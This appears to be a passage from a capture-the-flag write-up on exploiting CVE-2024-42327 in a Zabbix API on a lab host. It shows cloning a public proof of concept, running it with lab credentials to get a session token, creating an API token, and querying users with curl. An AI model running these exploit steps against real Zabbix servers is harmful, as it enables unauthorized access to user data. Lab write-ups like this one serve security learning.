 ![](cybersecurity/images/Pasted%2520image%252020250221174245.png)

This is a critical vulnerability, let's start the exploitation process.

# EXPLOITATION
---

Once knowing we're dealing with `CVE-2024-42327`, let's try to exploit it:

```
git clone https://github.com/aramosf/cve-2024-42327/
```

We can use this PoC to check if the Zabbix is vulnerable, it retrieves data from other users:

```
python3 cve-2024-42327.py -u http://10.10.11.50/zabbix/api_jsonrpc.php -n matthew -p 96qzn0h2e1k3

Valid session token: 062cf49c33768876fee4241348f7bf9d
```

It retrieved data, let's go further, we need to reproduce the following steps:

![](cybersecurity/images/Pasted%2520image%252020250221175827.png)

Let's begin by creating an API token:


![](cybersecurity/images/Pasted%2520image%252020250221175915.png)


![](cybersecurity/images/Pasted%2520image%252020250221175924.png)

Our generated API token is:

```
acd87cfdc51fc832b066a4d3beebf72d30d88e64404c0972374502fbd41407dd
```

Now, knowing the endpoint of the application is `/api_jsonrc.php`, we can use curl to make a call and check the behavior of the API:

```bash
curl -X POST --url http://10.10.11.50/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.get", "params":{"output": "extend"},"auth":"acd87cfdc51fc832b066a4d3beebf72d30d88e64404c0972374502fbd41407dd", "id": 1}' -s | jq 
```


We get this output:

```json
{
  "jsonrpc": "2.0",
  "result": [],
  "id": 1
}
```
